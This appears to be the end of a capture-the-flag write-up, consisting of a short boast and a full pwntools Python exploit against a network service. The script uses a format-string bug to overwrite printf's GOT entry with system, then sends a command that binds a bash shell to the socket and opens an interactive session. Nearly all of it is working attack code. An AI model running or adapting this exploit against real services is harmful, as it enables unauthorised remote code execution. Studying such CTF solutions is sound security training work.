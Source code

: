 So here's my full exploit code, which overwrite the GOT entry for printf, to
system! We get shell, easy money!

```python
from pwn import *

#sock = remote('localhost', 6210)
sock = remote('172.30.0.2', 6210)
#serv_elf = ELF('./server')
plt_system = 0x401a10
got_printf = 0x6d00d0

def pad(s, size):
    assert len(s) <= size
    return s + 'A'*(size - len(s))

def send_packet(action, data):
    sock.send(p32(len(data)) + p32(action) + data)

def write_64int(addr, val):
    padding = 96
    data_start = 15
    invalid_action = 10

    points = [] # (val, addr)
    for i in range(8):
        points.append(((val >> (i * 8)) & 0xff, addr + i))

    points.sort()
    prev = 0
    fmt = ''
    addrs = ''
    off = data_start + (padding // 8)
    for val, addr in points:
        assert val >= prev
        addrs += p64(addr)
        if val == prev:
            fmt += '%{}$hhn'.format(off)
        else:
            fmt += '%{}c%{}$hhn'.format(val - prev, off)
        off += 1
        prev = val

    send_packet(invalid_action, pad(fmt, padding) + addrs)

def main():
    write_64int(got_printf, plt_system)
    send_packet(10, "exec <&5 >&5 2>&5; bash\0")
    sock.interactive()
    pass

if __name__ == '__main__':
    main()
```
